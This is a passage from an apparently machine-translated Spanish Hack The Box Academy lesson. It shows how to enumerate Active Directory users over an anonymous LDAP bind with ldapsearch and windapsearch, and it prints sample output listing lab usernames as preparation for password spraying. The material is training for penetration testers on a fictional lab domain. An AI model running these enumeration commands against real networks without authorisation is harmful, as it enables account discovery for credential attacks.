 Podemos usar varias herramientas para recopilar usuarios cuando encontramos un enlace anónimo LDAP. Algunos ejemplos incluyen[Windapsearch](https://github.com/ropnop/windapsearch)y[ldapsearch](https://linux.die.net/man/1/ldapsearch). Si elegimos usar`ldapsearch`Tendremos que especificar un filtro de búsqueda LDAP válido. Podemos aprender más sobre estos filtros de búsqueda en el[Active Directory LDAP](https://academy.hackthebox.com/course/preview/active-directory-ldap)módulo.

#### Usando ldapsearch

  Pulverización de contraseñas: hacer una lista de usuarios de Target

```shell-session
xnoxos@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

guest
ACADEMY-EA-DC01$
ACADEMY-EA-MS01$
ACADEMY-EA-WEB01$
htb-student
avazquez
pfalcon
fanthony
wdillard
lbradford
sgage
asanchez
dbranch

<SNIP>
```

Herramientas como`windapsearch`Hacer esto más fácil (aunque todavía debemos entender cómo crear nuestros propios filtros de búsqueda LDAP). Aquí podemos especificar el acceso anónimo proporcionando un nombre de usuario en blanco con el`-u`bandera y el`-U`Marcar para decirle a la herramienta que recupere solo a los usuarios.

#### Usando Windapsearch

  Pulverización de contraseñas: hacer una lista de usuarios de Target

```shell-session
xnoxos@htb[/htb]$ ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U

[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+]	Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+]	...success! Binded as: 
[+]	 None

[+] Enumerating all AD users
[+]	Found 2906 users: 

cn: Guest

cn: Htb Student
userPrincipalName: htb-student@inlanefreight.local

cn: Annie Vazquez
userPrincipalName: avazquez@inlanefreight.local

cn: Paul Falcon
userPrincipalName: pfalcon@inlanefreight.local

cn: Fae Anthony
```